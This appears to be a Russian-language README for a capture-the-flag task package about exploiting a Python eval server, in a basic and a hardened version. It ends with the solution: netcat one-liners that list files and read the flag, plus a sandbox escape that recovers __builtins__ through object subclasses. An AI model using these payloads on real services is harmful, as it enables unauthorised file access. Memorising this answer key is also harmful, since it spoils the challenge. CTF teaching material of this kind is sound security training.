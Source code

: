 Python eval
===========
**eval**
> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные. Заполучите их!  
---
**eval hardned**
> К сожалению, кто-то взломал сервер, уже знакомого вам Боба, и секретные данные с его компьютера попали в сеть. Из-за этого он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является - захват Мира.  
> Несмотря на то, что Боб улучшил защиту сервера, вам придется вновь взломать его, постарайтесь исправить то, что вы натворили в прошлый раз.  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **eval2.py** - Псевдо исходный код для "harder", который доступен участникам
3. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
4. **blacklist.txt** - Файл с запрещенными словами
5. **server.py** - Исходный код
6. **server2.py** - Исходный код "harder" версии

Запуск
------
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
Единственное отличие "harder" версии от обычной в том, что теперь закрыт доступ не только к глобальным переменным, но и к \__builtins__

---

Решение
-------
1. Получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```  

Решение "harder" версии
------------------
1. Получить доступ к встроенным \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)